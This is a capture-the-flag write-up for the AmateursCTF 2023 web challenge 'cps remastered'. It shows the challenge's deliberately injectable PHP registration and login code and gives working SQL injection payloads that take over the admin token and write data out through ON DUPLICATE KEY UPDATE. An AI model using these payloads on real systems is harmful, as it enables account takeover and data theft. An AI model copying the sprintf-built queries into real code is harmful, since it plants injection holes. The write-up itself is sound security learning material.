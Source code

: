 ```yaml
---
layout: post
title: AmateursCTF 2023
---
```


# cps remastered
![screenshot of challenge description]({{ site.baseurl }}/images/amateursctf/cps.png)
The description is already hinting at SQL injection so we know what we're getting into here

It didnt take too long to spot the SQLi in register.php
```php
<?php
    $message = "";
    mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
    if (isset($_POST["username"]) && isset($_POST["password"])) {
        try{
            $mysqli = new mysqli("p:db", "app", "ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5", "cps");
            $result = $mysqli->query(sprintf("INSERT INTO users (username, password) VALUES ('%s', '%s')", $_POST["username"], $_POST["password"]));
            if ($result) {
                $token = bin2hex(random_bytes(16));
                $add_token = $mysqli->query(sprintf("INSERT INTO tokens (token, username) VALUES ('%s', '%s')", $token, $_POST["username"]));
                if ($add_token) {
                    setcookie("token", $token);
                    $message = "<p>Successfully created account. You are now logged in</p>";
                }
            } else {
                $message = "<p>Something went wrong. Username " + $_POST["username"] + " (might) have been taken already</p>";
            }
        } catch (Exception $e) {
            if (str_starts_with($e, "mysqli_sql_exception: Duplicate entry '") and str_contains($e, "' for key 'PRIMARY'")) {
                $message = sprintf("<p>Something went wrong. Username starting with %s has been taken already</p>", substr(explode("' for key", substr($e, 39))[0], 0, 5));
            }
        }

    }
?>
```

I thought we could update password field using the insert query however the permissions for the SQL user only allow us to update the best_cps column.


```sql
CREATE USER 'app' @'%' IDENTIFIED BY 'ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5';
GRANT SELECT ON cps.* TO 'app' @'%';
GRANT INSERT ON cps.* TO 'app' @'%';
GRANT UPDATE (best_cps) ON cps.users TO 'app' @'%';
FLUSH PRIVILEGES;
```

So instead let's look at this other SQLi in login.php

```php
<?php
    $message = "";
    mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
    if (isset($_POST["username"]) && isset($_POST["password"])) {
        $mysqli = new mysqli("p:db", "app", "ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5", "cps");
        $stmt = $mysqli->prepare("SELECT username, password FROM users WHERE username = ? AND password = ?");
        $stmt->bind_param("ss", $_POST["username"], $_POST["password"]);
        $stmt->execute();
        $result = $stmt->get_result();
        $row = $result->fetch_assoc();
        if ($row) {
            $token = bin2hex(random_bytes(16));
            $add_token = $mysqli->query(sprintf("INSERT INTO tokens (token, username) VALUES ('%s', '%s')", $token, $_POST["username"]));
            if ($add_token) {
                setcookie("token", $token);
                echo "<p>You are now logged in</p>";
            }
        } else {
            echo "<p>Something went wrong.</p>";
        }

    }
?>
```

On first glance it might seem like we can't exploit the SQLi in the INSERT query however if we register an account with our payload as it's username we can reach the vulnerable query.

So register a user with the username `admin\');-- -` - we need to escape the quote as register.php itself is injectable.

Afterwards log in as the user we just created and we get the flag on the index (flag was password of admin user).

What our injection does here is make the token we have the token for the admin user instead of the user we created.

Flag: `amateursCTF{h0w_f@st_can_you_cl1ck?}`
![screen shot of flag on cps]({{ site.baseurl }}/images/amateursctf/cpsflagged.png)

## Other notes from cps remastered
The intended solution was to extract the flag bit by bit using boolean based blind.

If we did have UPDATE permissions for password column we could extract data through the password field in our INSERT query like this:

Username: myuser

Password: `xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=@@version-- -`

Query: 
```sql
INSERT INTO users (username, password) VALUES ('myuser', 'xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=@@version-- -')
```

While exploiting this you may get an error like:
`Error in query (1093): Table ‘users’ is specified twice, both as a target for ‘INSERT’ and as a separate source for data`

You can work around this issue using subqueries:
```sql
xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=(SELECT t.password FROM (SELECT * FROM users t WHERE t.username='admin') as t)-- -
```

